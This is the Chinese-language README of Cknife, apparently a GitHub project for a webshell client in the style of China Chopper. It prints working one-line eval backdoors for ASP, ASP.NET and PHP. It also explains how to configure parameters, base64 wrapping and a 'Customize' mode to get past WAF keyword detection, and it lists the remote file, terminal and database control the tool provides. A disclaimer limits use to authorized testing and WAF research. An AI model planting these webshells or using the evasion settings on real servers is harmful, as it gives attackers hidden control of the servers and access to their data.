 ```yaml
---
project: Cknife
stars: 2438
description: |-
    Cknife
url: https://github.com/Chora10/Cknife
---
```


软件名称：Cknife
中文名称：C刀
源码地址：https://github.com/Chora10/Cknife
下载地址：http://pan.baidu.com/s/1nul1mpr  密码：f65g
官方博客：http://www.ms509.com/
作者：	  Chora && MelodyZX
----------------------------------------------------------------------------------------------------------
免责声明：
本工具仅限于安全研究与教学使用，用户使用本工具所造成的所有后果，由用户承担全部法律及连带责任！作者不承担任何法律及连带责任。
----------------------------------------------------------------------------------------------------------
为什么开发Cknife：
1、方便已被授权的渗透测试人员进行渗透测试；
2、方便WAF厂商提升自身WAF的防护能力；
3、方便管理员管理自身网站及服务器。
----------------------------------------------------------------------------------------------------------
为什么开源Cknife：
1、结合大众的力量优化完善本软件；
2、菜刀后门层出不穷，开源来接受大众的监督以及审计。
----------------------------------------------------------------------------------------------------------
理想：希望能在安全研究员以及WAF厂商的对抗中提升国内WAF的防护水平以及安全研究员的实力。
----------------------------------------------------------------------------------------------------------


一、运行环境：

安装了JRE1.7+环境的所有操作系统

二、文件说明：
------------------------------------------------------------------
Cknife.jar	Cknife主程序
------------------------------------------------------------------
Cknife.db	Cknife的数据库(不存在会自动生成)
Config.ini	Cknife的配置文件(不存在会自动生成)
ReadMe.txt	你现在正在看的(可删除)
1.jsp		JSP服务端脚本(可删除)
1.jspx		JSPX服务端脚本(可删除)
------------------------------------------------------------------

三、使用说明：

服务端脚本支持ASP、ASPX、PHP、JSP、JSPX、Customize(自定义)。
代码包含且不限于如下代码（只要能构造出类似eval的函数就行，比如PHP的create_function、assert等）

ASP:        
<%eval request("Cknife")%>
　	
ASP.NET:    
<%@ Page Language="Jscript"%><%eval(Request.Item["Cknife"],"unsafe");%>

PHP:        
<?php @eval($_POST['Cknife']);?>

JSP:	    
[代码详见1.jsp]

JSPX:	    
[代码详见1.jspx]

Customize:  
自定义类型,功能代码在服务端保存,理论上支持所有动态脚本,只要正确与C刀进行交互即可。此模式可按需定制，比如只要浏览目录，或是只要虚拟终端功能，代码可以很简短。


四、数据库功能：

首次使用在列表里点击右键，选择数据库管理会提示请先配置数据库，点击配置数据库按钮选择对应的连接方式连接即可。

五、设置功能：

代理功能：在类型处选择代理类型。支持SOCKS、HTTP类型的代理，使用Burp抓取Cknife数据，需选择代理类型为HTTP，并填上对应的IP以及端口即可。
如果想要关闭代理功能，只需要选择代理类型为DIRECT，或者清空用户名或密码，即表示关闭代理。

自定义请求头功能：在文本框里输入要自定义的请求头以及对应的值，可以添加或修改多个请求头。只需要按照如下格式添加即可：
User-Agent:xxx
Cookie:xxx
ms509:Chora
如果想要关闭自定义请求头功能，只需要把文本框内容清空，或者选中关闭选项并确定。

六、过WAF

这是一款跨平台的基于配置文件的中国菜刀，把所有操作给予用户来定义，主程序只是图形的展示，以及数据的发送。
我分开了每一个步骤写入到配置文件里面，用户可以自定义任何代码，包括更改参数名称，参数内容。 
比如： 
SKIN=javax.swing.plaf.nimbus.NimbusLookAndFeel 设置皮肤为nimbus 
SPL=->|               			       表示截取数据的开始符号 
SPR=|<-               			       表示截取数据的结束符号 
CODE=code         			       编码参数 
ACTION=action    			       动作参数 
PARAM1=z1         			       参数1 
PARAM2=z2         			       参数2 
PHP_BASE64=1   				       当为PHP时，Z1，Z2参数是否开启自动base64加密，如果想定义自己的加密方式则关闭设置为0 
PHP_MAKE=@eval(base64_decode($_POST[action])); 生成方式，这里可以不用该方式，可以用你任何想要的方式 
PHP_INDEX=...             		       显示主页功能的代码放这儿
PHP_READDICT=...      			       读取主页功能的代码放这儿
PHP_READFILE=...       			       读取文件功能的代码放这儿
PHP_DELETE=...           		       删除文件夹以及文件功能的代码放这儿
PHP_RENAME=...         			       重命名文件夹以及文件功能的代码放这儿
PHP_RETIME=...         			       修改时间功能的代码放这儿
PHP_NEWDICT=...        			       新建目录功能的代码放这儿
PHP_UPLOAD=...          		       上传文件功能的代码放这儿
PHP_DOWNLOAD=...    			       下载文件功能的代码放这儿
PHP_SHELL=...              		       虚拟终端功能的代码放这儿
PHP_DB_MYSQL=...			       管理MYSQL数据库功能的代码放这儿
ASP_...=...
ASPX_...=...
JSP_...=...

除了修改以上参数过WAF外，程序还额外提供了一种Customize过WAF的模式。
Customize模式原本是用于支持一些程序默认不支持的脚本，比如CFM、ASMX、ASHX、PY等等，只要用户自写的脚本能正确与菜刀进行交互即可。

换一个思考方式，如果我们自写一个PHP脚本实现了列文件以及目录的功能，它能够正确的与C刀进行交互，这个时候如果我们选择PHP(Eval)的连接方式就会连接失败。
应该选择Customize模式进行连接。有人说为什么一句话就可以连接，你偏偏还要写这么多代码用Customize模式连接？如果一个很厉害的WAF检测eval,assert等关键词
，你的一句话实在是饶不过，这个时候你可以不用一句话，就在PHP脚本里用正常代码实现列文件以及目录，然后用Customize模式连接就达到了过WAF的目的。

Customize(自定义)模式跟其他模式一样，每一个步骤也都写入到配置文件里面，用户同样可以参数名称以及参数内容。
比如你自写了用Customize模式连接的Customize.php服务端。显示主页功能提交的参数应该是：密码=1&action=index以及密码=1&action=readdict。
如果C刀普及以后WAF厂商肯定会把readdict列入黑名单，这个时候你就可以修改readdict的名称为其他名称，同样可以修改action的名称，也可以修改1为其他字符
CUS_MAKE=1 
CUS_INDEX=index 
CUS_READDICT=readdict 
CUS_READFILE=readfile 
CUS_SAVEFILE=savefile 
CUS_DELETE=delete 
CUS_RENAME=rename 
CUS_RETIME=retime 
CUS_NEWDICT=newdict 
CUS_UPLOAD=upload 
CUS_DOWNLOAD=download 
CUS_SHELL=shell

七、更新日志：(更新版本后请删除Config.ini文件，重新打开自动生成新版本的Config.ini)

程序在使用过程中难免有各种BUG，及时关注看一下是否有更新吧，说不定己经修补了呢。

已知问题：
Graphite与Metal类型的皮肤互相之间切换不需要重启Cknife，其余类型(Nimbus、Windows、Mac等)的皮肤相互之间切换也不需要重启Cknife，
但是这两种类型的皮肤进行切换就需要重启Cknife才能完全生效，不然最小化、最大化、关闭按钮不会显示，这是Swing架构遗留的问题。

20160729
1、文件管理修复若干BUG
2、文件管理新增修改时间功能
3、文件管理优化界面

20160728
1、数据库管理修复若干BUG
2、数据库管理增加获取表行数
3、数据库管理优化界面

20160623
1、虚拟终端增加右键复制粘贴功能（快捷键Ctrl+C、Ctrl+V）
2、虚拟终端增加上键下键切换历史命令功能
3、数据库管理增加右键导出数据功能

20160622
1、修复ORACLE数据库连接失败的问题
2、修复在某分辨率下添加SHELL对话框里的密码文本框消失的问题
3、更新JSPX脚本

20160620
1、修复虚拟终端低概率执行失败的情况
2、数据库管理界面优化

20160618
1、添加对HTTPS协议的支持
2、修复文件管理右边栏遇到乱码不显示的情况

20160513
1、添加自定义请求头功能

20160511
1、添加设置选项并增加了代理功能
2、增加了对JSPX脚本的支持，连接时脚本类型选择JSP(Eval)

20160426
1、修复JSP连接MYSQL数据库异常的问题
2、虚拟终端增加自定义Cmd路径的功能，命令为setp [path]

20160413
1、添加自定义模式shell返回路径的自定义分隔符
2、添加JSP对MSSQL的支持

20160318
1、优化界面，右边栏点击目录后左边栏也会选中
2、修复ASP、ASPX、JSP在打开空目录时会失败的问题
3、将默认皮肤Graphite添加到皮肤切换功能
4、虚拟终端增加标识符方便用户分辨
5、数据库部分功能增加多线程

20160317
1、优化文件管理左边栏的打开方式
2、文件管理所有功能使用多线程，防止高延迟请求界面会卡的情况发生

20160316
1、修复在Linux下默认皮肤显示乱码的问题
2、添加ASPX对MSSQL、ACCESS的支持
3、更换皮肤解决选中后看不清的情况

20160314
1、添加ASP对MSSQL、ACCESS的支持
2、修复中文路径启动失败的问题

20160311
1、修复模拟终端若干BUG；
2、模拟终端使用多线程，防止高延迟请求界面会卡的情况发生

20160310
1、添加JSP对MYSQL、ORACLE的支持
2、修复在Windows下，文件管理会多出一个盘符

20160307
1、连接失败返回详细信息，方便用户分析问题

20160301
1、合并Cknife与Cknife_Skin
2、添加数据库功能，添加PHP对MYSQL的支持
